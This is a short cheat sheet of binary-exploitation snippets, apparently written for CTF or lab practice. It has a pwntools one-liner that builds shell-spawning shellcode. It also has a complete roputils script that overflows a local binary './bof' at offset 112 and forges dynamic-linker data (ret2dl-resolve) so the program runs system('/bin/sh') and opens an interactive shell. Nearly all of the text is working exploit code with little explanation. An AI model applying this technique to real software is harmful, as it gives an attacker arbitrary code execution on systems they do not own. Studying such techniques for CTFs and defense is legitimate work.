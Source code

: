 ## pwntools

### shellcode
```python
context.arch = 'amd64' # 'i386'
shellcode = asm(shellcraft.sh())
```

## roputils
 - `rop.dl_resolve_call(bss_base + 20, bss_base)` -> fake plt
 - `rop.dl_resolve_data(bss_base + 20, 'system')` -> fake dynsym, dynstr

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
from time import sleep

r = process('./bof')
context.log_level = 'debug'
r.recv()

rop = ROP('./bof')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
gdb.attach(r)

r.send(buf)

sleep(15)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
print 'buf len  ='+str(len(buf))
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()

```
